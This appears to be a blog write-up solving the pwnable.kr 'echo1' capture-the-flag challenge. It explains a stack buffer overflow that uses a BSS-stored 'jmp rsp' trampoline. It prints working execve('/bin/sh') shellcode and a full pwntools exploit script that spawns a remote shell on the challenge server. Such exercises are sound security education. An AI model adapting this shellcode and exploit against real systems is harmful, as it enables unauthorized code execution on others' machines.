 ```yaml
---
layout: post
title:  Pwnable.kr - echo1
categories: [pwnable.kr]
excerpt: Writeup for echo1.
---
```

# Pwnable.kr - Echo1

The challenge can be found [here](http://pwnable.kr/play.php).

# Defining The Attack Surface
This binary doesn't shy away from the avenue of attack:
```
my@pc:~/pwnablekr/echo1$ ./echo1
hey, what's your name? : alex

- select echo type -
- 1. : BOF echo
- 2. : FSB echo
- 3. : UAF echo
- 4. : exit
> 
```

Indeed, looking at the diassembly from Ghidra for `echo1`, aka `BOF echo`,
we can see that, indeed, there's nothing misleading, we have a BOF with more than enough room to easily change control flow.
```c
undefined8 echo1(void)

{
  char local_28 [32];
  
  (**(code **)(o + 0x18))(o); // code ptr here points to `greetings`
  get_input(local_28,0x80);
  puts(local_28);
  (**(code **)(o + 0x20))(o); // code ptr here points to `byebye`
  return 0;
}
```

Clearly, we're going with a buffer overflow style attack.

Our goal is to launch a shell, so somehow we want to invoke shellcode which will call (something like) `execve("/bin/sh", NULL, NULL)`.

So, a natural next question is where this shellcode can live; a quick `checksec` answers that for us:

```
my@pc:~/pwnablekr/echo1$ checksec echo1
[*] '/home/alexsieusahai/pwnablekr/echo1/echo1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

`NX disabled`; we can just have the shellcode live on the stack.

A next natural question, then, is how we can translate that buffer overflow via `echo1` into an `execve("/bin/sh", NULL, NULL)` call.
Sadly, looking through the overflow points with gdb and a little bit of bruteforce-ish searching, no stack addresses are leaked via the buffer overflow here.

I tried looking for avenues of attack via ROP either for disclosure or as an alternative, but the binary is too small to produce anything I'd need (no `pop rdi; ret` and friends in particular), nor do I (afaik) have a way of doing a puts_puts style disclosure into libc to get its gadgets.

After pondering for some time about what's constant, it's clear.

There is something important about ELFs with no PIE and writable data; the BSS has a constant location!

In particular, we can see in the `main` decompilation that:

```c
undefined8 main(void)

{
  // symbol initialization...
  undefined4 local_28;
  
  // irrelevant code...
  printf("hey, what\'s your name? : ");
  __isoc99_scanf(&DAT_00400bbe,&local_28);
  // more irrelevant code...
  id = local_28;
```

We write to a piece of data that has constant positioning!
We can clearly see from the listing in the bss in the objdump that we take a dword (4 bytes) worth of data from our input.
```bash
my@pc:~/pwnablekr/echo1$ objdump -M intel -d echo1 | grep id
# ... a couple false positives
  400976:	89 05 24 17 20 00    	mov    DWORD PTR [rip+0x201724],eax        # 6020a0 <id>
# there we go! we're moving 4 bytes into the memory corresponding to the id symbol!
```
So, we have a 4 byte trampoline into code that we already know.
Importantly, when we do the buffer overflow, we're writing code around the stack pointer.

So, we can make our `id` value be the bytecode for `jmp rsp`, which is certainly smaller than 5 bytes, and use this to access any shellcode I'd have at `rsp` after the `ret` (in order to run the trampoline).

## Shellcode?

Perhaps interestingly, `execve` doesn't require it's second argument (`rsi`) to be `[value_at_rdi, arg1, arg2, ...]`; it can merely be empty.

I remembered this from [this blog post](https://jameshfisher.com/2017/02/05/how-do-i-use-execve-in-c/) awhile back, from when I was studying shellcoding; at least according to [this stackexchange thread](https://unix.stackexchange.com/questions/187666/why-do-we-have-to-pass-the-file-name-twice-in-exec-functions) it appears to be idiomatic to have `argv[0]` be the binary name, but not required.

Thus, we want to do a syscall that looks like
```c
execve("/bin/sh", NULL, NULL)
```

Thankfully, this is pretty straightforward; [cyberchef](https://gchq.github.io/CyberChef/) can get you the "/bin/sh" reversed hexadecimal equivalent very easily (reversal is just due to little endianness), and hopefully everything else is straightforward.

We simply utilize the stack to store the "/bin/sh" string out of convenience, but in principle anywhere that's not `mprotect`ed against reads and writes should be usable, afaik.

The calling conventions for x86 dictate `rdi, rsi, rdx` as the first three arguments to any syscall, hence the values below.

```s
  mov r10, 0x68732f6e69622f
  push r10
  mov rdi, rsp
  mov rdx, 0
  mov rsi, 0
  mov al, 59
  syscall
```

## Obtaining the full exploit

Out of convenience, we use [pwntools](https://github.com/Gallopsled/pwntools).

We store the shellcode in `shell.s`, just out of syntax highlighting inspired convenience.

We know from the `echo1` stub
```
                             undefined echo1()
             undefined         AL:1           <RETURN>
             undefined1        Stack[-0x28]:1 local_28                                XREF[2]:     00400837(*), 
                                                                                                   00400848(*)  
                             echo1                                           XREF[4]:     Entry Point(*), main:00400981(*), 
```

That `local_28`, what buffer we're overwriting, needs `0x28 -> 40` bytes before we reach the stack pointer for the preceeding stack frame, which will dictate what we `RET` to after doing the `LEAVE` instruction at the end of the function.

So, we arbitrarily pass in 40 bytes worth of garbage.

Then, we want to ret to the trampoline, which we'll just grab conveniently using `ELF.symbols`. 
Keep in mind that we `RET` to this value, and then we `JMP`; our shellcode then must exist just 8 bytes after the initial position of `RSP` (ie, RSP only increases by 8 bytes before we `JMP` to it), hence why we immediately tack the shellcode onto the payload.

`run_echo1` is just really a helper found out by interacting with the binary.

```python
from pwn import *
ID_BSS = p64(ELF('echo1').symbols['id'])

shellcode = open('spawn_shell.s').read()
shellcode = asm(shellcode, arch='x86_64', os='linux')
run_echo1 = b'\n1\n'
bof_payload = b'a' * 40 + ID_BSS + shellcode + b'\n'
payload = asm('jmp rsp', arch='x86_64', os='linux') + run_echo1 + bof_payload

open('in', 'wb').write(payload)

p = remote('pwnable.kr', 9010)
p.send(payload)
print(p.clean())
p.interactive()
```

And, we get the flag!

```sh
$              cat flag
OBFUSCATED
```
